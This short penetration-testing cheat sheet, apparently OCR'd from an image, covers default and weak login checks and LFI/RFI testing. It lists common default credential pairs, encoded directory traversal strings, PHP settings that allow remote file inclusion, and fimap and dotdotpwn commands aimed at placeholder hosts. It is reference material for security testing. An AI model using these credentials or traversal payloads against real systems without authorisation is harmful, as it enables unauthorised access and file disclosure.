 Default/Weak login
	
    Search documentation for default passwords and test them:
	http://www.defaultpassword.com/

    Google:
	site:webapplication.com password
	
    Common Username/Password combos:
	admin admin
    admin password
    admin <blank>
    admin <servicename>
    <servicename> <servicename>
    root root
    root admin
    root password
    root <servicename>
    <username> password
    <username> admin
    <username> username
    username <servicename>

# LFI/RFI

	Check source code for external or local references to other locations. 
    
    Use Burp to intercept and modify values to test for LFI/RFI
	
Encoded Traversal Strings:

    ../
    ..\
    ..\/
    %2e%2e%2f
    %252e%252e%252f
    %c0%ae%c0%ae%c0%af
    %uff0e%uff0e%u2215
    %uff0e%uff0e%u2216
    ..././
    ...\.\

Check php config options if possible
		
    RFI
	allow_url_fopen=on and allow_url_include=on
		
	Nullbyte Injection
	magic_quotes_gpc=off

LFI checkers

	fimap -u "http://INSERTIPADDRESS/example.php?test="
	
    dotdotpwn.pl -m http -h 192.168.1.1 -M GET
	